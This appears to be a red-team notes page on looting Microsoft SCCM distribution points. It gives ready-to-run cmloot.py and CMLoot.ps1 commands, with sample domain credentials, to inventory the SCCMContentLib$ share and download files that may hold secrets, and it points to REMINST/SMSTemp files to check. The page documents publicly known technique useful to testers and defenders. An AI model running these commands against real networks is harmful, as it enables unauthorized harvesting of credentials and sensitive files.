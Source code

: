 ```yaml
---
title: SCCM Content Library
---
```


Domain users have read access to the `SCCMContentLib$` share on [[notes/ad/sccm]] Distribution Points.
This share often contains [[notes/windows/sensitive-files]].

Build an inventory of the content library.

=== "[[notes/tools/cmlootpy]]"
    ~~~ bash
    python3 ./cmloot.py corp.local/jdoe:'passw0rd'@sccmdp01.corp.local
    tail -f ./sccmfiles.txt
    ~~~

=== "[[notes/tools/cmloot]]"
    ~~~ powershell
    Import-Module .\CMLoot.ps1
    Invoke-CMLootInventory -SCCMHost sccmdp01.corp.local -Outfile .\sccmfiles.txt
    ~~~

Download all files with a specific extension.

=== "[[notes/tools/cmlootpy]]"
    ~~~ bash
    python3 ./cmloot.py corp.local/jdoe:'passw0rd'@sccmdp01.corp.local -cmlootdownload ./sccmfiles.txt -extensions xml
    watch -n 1 'ls -l ./CMLootOut'
    ~~~

=== "[[notes/tools/cmloot]]"
    ~~~ powershell
    Invoke-CMLootDownload -InventoryFile .\sccmfiles.txt -Extension xml
    ~~~

Also check the `REMINST` share, especially the `SMSTemp` folder, for `.wim`, `.iso`, `variable.dat` and `policy.xml` files ([source](http://web.archive.org/web/20240213175832/https://http418infosec.com/offensive-sccm-summary)).

References:

- [Introducing cmloot.py - New tooling for attacking Configuration Manager](http://web.archive.org/web/20231007163021/https://www.shelltrail.com/research/cmloot/)
- [Looting Microsoft Configuration Manager](http://web.archive.org/web/20221201211829/https://labs.withsecure.com/publications/looting-microsoft-configuration-manager)
